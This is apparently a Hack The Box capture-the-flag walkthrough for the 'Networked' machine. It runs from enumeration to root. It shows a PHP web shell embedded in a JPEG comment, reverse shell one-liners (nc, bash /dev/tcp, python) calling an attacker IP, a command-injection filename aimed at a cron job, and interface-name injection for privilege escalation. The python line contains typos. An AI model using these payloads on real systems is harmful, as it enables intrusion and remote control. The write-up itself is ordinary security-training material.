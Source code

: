 # Networked HTB, IP 10.10.10.146

# Initial Enumeration

**1. nmap -sC -sV 10.10.10.146**

![n1](https://user-images.githubusercontent.com/15195048/93912551-c0f9cd80-fcb8-11ea-8190-ff6fb2d2f77f.png)

**2. Dirb/ Gobuster**

dirb http://10.10.10.146

dirb http://10.10.10.146 -X .php

![n2](https://user-images.githubusercontent.com/15195048/93912555-c1926400-fcb8-11ea-8d78-6e845abdae2d.png)

----------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1.Enumerating port 80

![n3](https://user-images.githubusercontent.com/15195048/93912557-c22afa80-fcb8-11ea-8ffd-57450756147c.png)


View page source: **Control+U**

![n4](https://user-images.githubusercontent.com/15195048/93912560-c22afa80-fcb8-11ea-9948-39fb8654bd19.png)

**Interesting Files**

http://10.10.10.146/upload.php

![n5](https://user-images.githubusercontent.com/15195048/93912562-c2c39100-fcb8-11ea-9a85-4ecce8d2b0b1.png)


Trying to upload a shell we see the error “Invalid image file”

http:10.10.10.146/backup


![n6](https://user-images.githubusercontent.com/15195048/93912563-c2c39100-fcb8-11ea-8c29-6fd246172a25.png)

Download the file **backup.tar**

![n7](https://user-images.githubusercontent.com/15195048/93912564-c2c39100-fcb8-11ea-89b3-c5362ba8366f.png)


![n8](https://user-images.githubusercontent.com/15195048/93912565-c35c2780-fcb8-11ea-9c6a-8655f622491b.png)


![n9](https://user-images.githubusercontent.com/15195048/93912566-c35c2780-fcb8-11ea-89ed-51178e94ab9e.png)


**Modifying bb.jpeg**

**exiftool -Comment='<?php echo** "<pre>"; system($_GET['cmd']); ?>'** bb.jpeg

**mv bb.jpeg bb.php.jpeg**

We successfully uploaded bb.php.jpeg photo.
view-source:http://10.10.10.146/uploads/10_10_14_21.php.jpeg?cmd=nc -e /bin/bash 10.10.14.21 8888

![n10](https://user-images.githubusercontent.com/15195048/93912571-c3f4be00-fcb8-11ea-906a-c4cb4c000e9e.png)


Try..

A)bash -i >& /dev/tcp/10.10.14.21/1234 0>&1

B) nc -e /bin/sh 10.10.14.21 1234  DONE

C) python -c 'import soc ket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


  After enumerating home directory of user guly we see that a php script is running as a cronjob which could be used to gain shell as that user. Lets look at code check_attack.php.  


![n11](https://user-images.githubusercontent.com/15195048/93912575-c3f4be00-fcb8-11ea-8d2f-c132c2b482c8.png)

![n12](https://user-images.githubusercontent.com/15195048/93912576-c48d5480-fcb8-11ea-8114-8676404dfb06.png)


**Notes:**
We see that it scans for files, If the files were found as malicious, then a cron job will check and report to guly with mail($to, $msg, $msg, $headers, "-F$value"); every three minutes, for files in /var/www/html/uploads that doesn’t begin with an IP address. We can touch a file with a file name that begins with ; to separate sendmail from the command that we want to execute.
   
**touch ';nc 10.10.12.161 4321 -c bash'**
   
 ![n13](https://user-images.githubusercontent.com/15195048/93912579-c525eb00-fcb8-11ea-8c04-57d78a66b2d9.png)
 
   
 ![n14](https://user-images.githubusercontent.com/15195048/93912580-c525eb00-fcb8-11ea-8d78-b6a230c2b66c.png)
 
   user.txt

-------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   sudo -l
   (root) NOPASSWD: /usr/local/sbin/changename.sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

   As guly I checked sudo -l and found that guly can run /usr/local/sbin/changename.sh as root without a password:
   
   
   ![n15](https://user-images.githubusercontent.com/15195048/93912582-c5be8180-fcb8-11ea-985d-e5273ce8f22d.png)

  This script simply creates a network script for an interface called guly then activates that interface. It asks the user for these options: NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO. We’re interested in the options because according to this page(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) we can inject commands in the interface name. Let’s try to execute bash:
  
   interface NAME:
   gu bash 
  
   or   
![n16](https://user-images.githubusercontent.com/15195048/93912583-c5be8180-fcb8-11ea-9273-c568c4345679.png)

root.txt
